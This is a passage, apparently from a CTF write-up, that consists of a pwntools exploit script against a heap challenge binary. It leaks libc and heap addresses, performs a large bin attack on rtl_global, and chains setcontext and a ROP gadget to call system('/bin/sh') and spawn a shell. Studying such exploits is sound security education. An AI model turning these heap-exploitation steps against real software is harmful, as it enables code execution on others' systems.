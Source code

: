 ```
show(0)
sh.recvuntil('Content: ')
main_arena_xx = u64(sh.recv(6).ljust(8,'\x00'))
libc_base = main_arena_xx - 0x1eb010
print 'libc_base=',hex(libc_base)
global_max_fast = libc_base + 0x1edb78
print 'global_max_fast=',hex(global_max_fast)
rtl_global = libc_base + 0x220060
print 'rtl_global=',hex(rtl_global)
set_context = libc_base + libc.sym['setcontext'] + 0x3D
ret = libc_base + libc.sym['setcontext'] + 0x14E
pop_rdi = libc_base + 0x00000000000277e9
binsh_addr = libc_base + libc.search('/bin/sh').next()
system_addr =  libc_base + libc.sym['system']
#print hex(libc_base + 0x2043ac)
edit(0,'a'*0x10)
show(0)
sh.recvuntil('a'*0x10)
heap_addr = u64(sh.recv(6).ljust(8,'\x00'))
print 'heap_addr=',hex(heap_addr)
edit(0,p64(main_arena_xx)*2)


#未归位的large bin
delete(2)
delete(4)

#控制large bin的bk
edit(0,p64(0) + p64(0) + p64(0) + p64(rtl_global - 0x20))
#raw_input()
add(0x600,'large bin attack!!')


payload = p64(0) + p64(libc_base + 0x221730) + p64(0) + p64(heap_addr + 0x960)
payload += p64(set_context) + p64(ret)

payload += p64(binsh_addr)
payload += p64(0)
payload += p64(system_addr)
payload += '\x00'*0x80

payload += p64(heap_addr + 0x960 + 0x28 + 0x18)

payload += p64(pop_rdi)
payload = payload.ljust(0x100,'\x00')
payload += p64(heap_addr + 0x960 + 0x10 + 0x110)*0x3
payload += p64(0x10)
payload = payload.ljust(0x31C - 0x10,'\x00')
payload += p8(0x8)
edit(2,payload)

edit(1,'b'*0x420 + p64(heap_addr + 0x960 + 0x20))

#getshell
sh.sendlineafter('&gt;&gt;','5')
sh.sendlineafter('name:','haivk')

sh.interactive()
```

